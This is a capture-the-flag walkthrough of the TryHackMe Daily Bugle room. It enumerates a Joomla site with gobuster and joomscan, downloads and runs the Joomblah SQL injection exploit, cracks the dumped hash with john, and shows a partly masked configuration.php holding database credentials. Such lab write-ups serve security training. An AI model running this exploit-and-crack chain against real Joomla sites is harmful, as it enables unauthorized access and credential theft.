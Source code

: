 # Daily Bugle Walkthrough -THM


![MainPage](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/DailyBugle.png "Website")

enumerate shares by using gobuster

```
gobuster dir -u http://10.10.87.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![gobuster](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/gobuster.png "Website")


The administrator directory looks interesting...

![gobuster]("https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomla login.png" "Website")

Joomla login.

Downloaded joomscan

```
perl joomscan.pl -u http://10.10.87.111
```
![gobuster](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/Joomscan.png "Website")

Version found!

Get upgraded Joomblah script
https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py

```
wget https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py
```
```
python3 joomblah_py3.py http://10.10.172.228
```

![gobuster](https://github.com/gray-area/THM/blob/main/DailyBugle/Sources/joomlah_run.png "Website")

I created a text file with copied hash from joomblah output

```
nano hash.txt
(paste hash)
ctrl-x
y
enter
```

I then ran this against the hash pasted into hash.txt

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
User: j****
Password: s*********23
```

Found this in /var/www/html/configuration.php

```
public $user = 'root';
	public $password = 'nv***********Nu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'U***********mVC';
```




